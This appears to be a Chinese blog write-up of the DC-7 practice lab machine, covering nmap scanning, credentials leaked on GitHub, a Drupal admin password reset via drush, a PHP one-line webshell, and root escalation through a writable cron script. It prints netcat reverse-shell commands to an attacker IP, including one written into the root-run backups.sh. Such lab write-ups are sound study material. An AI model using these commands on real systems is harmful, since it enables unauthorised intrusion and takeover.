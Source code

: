 ```yaml
---
title: DC-7
author: Pp1ove
avatar: \img\custom\head.jpg
authorLink: 
authorAbout: Pplover
authorDesc: 一个好奇的人
categories: 靶机
comments: false
date: 2021-02-18 16:43:55
tags: 渗透
keywords:
description:
photos: \img\article\23.png
---
```


# 信息搜集

## 主机发现

```
nmap -sn 192.168.182.0/24
nmap -sS 192.168.182.148
```

![image-20210218164928170](DC-7/image-20210218164928170.png)

访问80端口

![image-20210218164946241](DC-7/image-20210218164946241.png)

并且提示我们暴力破解是没有办法成功的

## Github泄露网站数据库配置信息导致泄露SSH

然后看到左下角有一个@DC7USER

谷歌搜索了一下，发现github上有该用户保存的代码,打开config文件看一下

![image-20210218170320519](DC-7/image-20210218170320519.png)

# 提权

登录一下ssh，成功登录

![image-20210218170655941](DC-7/image-20210218170655941.png)

## 提权www-data

然后发现了几封邮件,发现一个backups.sh文件,而且根据实践来看是每15分钟root用户会执行一次

![image-20210218171243545](DC-7/image-20210218171243545.png)

运行一下sh文件发现没啥用,再查看一下内容

![image-20210218172843258](DC-7/image-20210218172843258.png)

如果我们能修改内容,就能以root权限执行命令,但我们没有办法修改内容,查看一下权限

![image-20210218173005480](DC-7/image-20210218173005480.png)

发现www-data对其也有rwx权限

而且关注到这个`drush`命令，是`drupal框架`中用来做一些配置的命令，它可以改变用户名密码，格式如下：

```
drush user-password admin --password="new_pass"
```

进入到/var/www/html目录下，因为网站会有一个admin用户，所以使用drush命令修改admin用户的密码为123456，发现可以修改成功

```
drush user-password admin --password="123456"
```

使用密码成功登录到后台

![image-20210218171928888](DC-7/image-20210218171928888.png)

尝试一句话木马

尝试编辑一下文章

![image-20210218173526644](DC-7/image-20210218173526644.png)

但是并没有安装php环境，去Extends模块安装

```
https://ftp.drupal.org/files/projects/php-8.x-1.0.tar.gz
```

![image-20210218173754699](DC-7/image-20210218173754699.png)

![image-20210218174014565](DC-7/image-20210218174014565.png)

写下我们的一句话木马

![image-20210218174224114](DC-7/image-20210218174224114.png)

成功用蚁剑连接

![image-20210218174317172](DC-7/image-20210218174317172.png)

发现安装了nc,使用nc反弹shell

```
nc -e /bin/bash 192.168.211.135 333
```

获取交互式shell

```
python -c 'import pty;pty.spawn("/bin/bash")'
```

## 垂直提权

去修改一下backups.sh文件

![image-20210218175014434](DC-7/image-20210218175014434.png)

```
echo nc -e /bin/bash 192.168.187.130 6666 > backups.sh
```

![image-20210218181658768](DC-7/image-20210218181658768.png)

然后等backups.sh下一次被root用户执行

![image-20210218183206713](DC-7/image-20210218183206713.png)

